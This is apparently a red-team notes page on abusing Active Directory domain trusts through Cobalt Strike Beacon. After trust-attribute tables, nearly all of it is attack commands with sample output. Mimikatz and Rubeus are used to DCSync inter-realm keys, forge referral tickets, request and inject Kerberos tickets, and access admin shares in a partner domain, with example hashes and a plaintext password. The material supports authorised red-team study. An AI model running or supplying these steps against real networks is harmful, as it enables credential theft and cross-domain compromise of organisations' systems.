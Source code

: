 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | trustAttributes                      |
| ----- | ------------------------------------ |
| 1     | `TRUST_ATTRIBUTE_NON_TRANSITIVE`     |
| 4     | `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN` |
| 8     | `TRUST_ATTRIBUTE_FOREST_TRANSITIVE`  |
| 32    | `TRUST_ATTRIBUTE_WITHIN_FOREST`      |
| 64    | `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL`  |
`
```powershell
execute-assembly ~/opt/Rubeus.exe silver /user:Administrator /domain:zsm.local /sid:S-1-5-21-2734290894-461713716-141835440 /service:krbtgt/zsm.local /rc4:f112ca3fdde9210caf7335939d95c191 /ldap /nowrap
```
##### Inbound Trust Abuse

Enumerate the one-way trust
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
```

Enumerate the Foreign Security Principals Container.
```powershell
ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com
```

Enumerate interesting SID
```powershell
ldapsearch (objectSid=[SID])

ldapsearch (objectSid=S-1-5-21-3926355307-1661546229-813047887-6102)
```

Perform DCSync to obtain inter-realm key.
```powershell
make_token CONTOSO\dyork Passw0rd!
dcsync contoso.com CONTOSO\PARTNER$
rev2self

700f2ef9f5c327c5acb0502277ba9b3847b9e0454dbf27d3658f7249c32e924b
f112ca3fdde9210caf7335939d95c191
```

Forge a referral ticket offline or online using the `/ldap` flag
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /service:krbtgt/partner.com /rc4:f112ca3fdde9210caf7335939d95c191 /ldap /nowrap
```

Use forged inter-realm ticket to request service tickets for the trusting domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /nowrap /ticket: 
```

Inject ticket into current session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
ls \\par-jmp-1.partner.com\c$
```

##### Outbound Trust Abuse

 Enumerate the one-way trust.
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatName
```

> **From the Medium-integrity Beacon**:

Get the GUID of the TDO
```powershell
ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID

288d9ee6-2b3c-42aa-bef8-959ab4e484ed
```

 Obtain the shared inter-realm key from the TDO.
```powershell
mimikatz lsadump::dcsync /domain:partner.com /guid:{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}

cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
6150491cceb080dffeaaec5e60d8f58d
```

 Request a TGT for the trust account using the shared secret.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /nowrap /rc4:6150491cceb080dffeaaec5e60d8f58d
```

> **From the High-integrity Beacon**:

Inject the TGT into a sacrifial logon session and verify
```powershell
make_token CONTOSO\PARTNER$ FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
```

Perform [enumeration](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F8.%20Discovery%2F_%20Main) on the trusted domain, find roastable users, ADCS instances, etc.
```powershell
ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com
```